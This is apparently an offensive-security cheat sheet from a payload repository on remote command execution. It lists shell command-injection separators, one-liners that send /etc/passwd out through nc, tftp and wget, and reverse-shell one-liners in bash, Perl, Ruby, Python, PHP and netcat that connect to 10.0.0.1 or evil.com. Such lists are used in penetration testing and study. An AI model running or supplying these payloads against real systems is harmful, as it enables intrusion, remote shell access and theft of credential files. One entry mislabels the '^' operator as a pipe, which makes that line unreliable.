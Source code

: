 Remote Command Exec Cheatsheet

File notes

**source-disc-cmd-exec-traversal.fuzz.txt**

usage
```GET /path/*payload*relative/path/to/target/file/```

**Executing Commands**

Seperating Commands 
``` blah;blah2 ```

PIPES
``` blah ^ blah 2```

AND 
```blah && blah2```

OR
```FAIL || X```

OR 
``` blah%0Dblah2%0Dblah3 ```

Backtick
``` `blah` ```

Background 
``` `blah & blah2` ```

**Exfiltrating Files / Data**

FTP 
Make a new text file, and echo and then redirect to FTP

NC 
``` 'nc -e /bin/sh' ```

NC 
``` 'echo /etc/passwd  | nc host port' ```

TFTP 
``` 'echo put /etc/passwd | tftp host' ```

WGET: 
``` 'wget --post-file /etc/passwd' ```

**One-Liner Reverse Shells**

On the listener 
``` $ nc -l -p 8080 -vvv' ```

On the remote host...
Bash:
``` $ bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 ```

``` $ exec 5<>/dev/tcp/evil.com/8080 ```
'$ cat <&5 | while read line; do $line 2>&5 >&5; done'

Perl
```$ perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' ```

Ruby
``` $ ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)' ```

Python
``` $ python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

PHP
``` $ php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");' ```
(Assumes TCP uses file descriptor 3. It it doesn't work, try 4,5, or 6)

Netcat
``` $ nc -e /bin/sh 10.0.0.1 1234 ```

``` $ rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 1234 >/tmp/f ```

```
XTERM:
Server: 
$ xterm -display 10.0.0.1:1
Listener:
$ Xnest :1
$ xhost +targetip
```



More docs: /docs/attack-docs/remote-cmd-exfiltration/
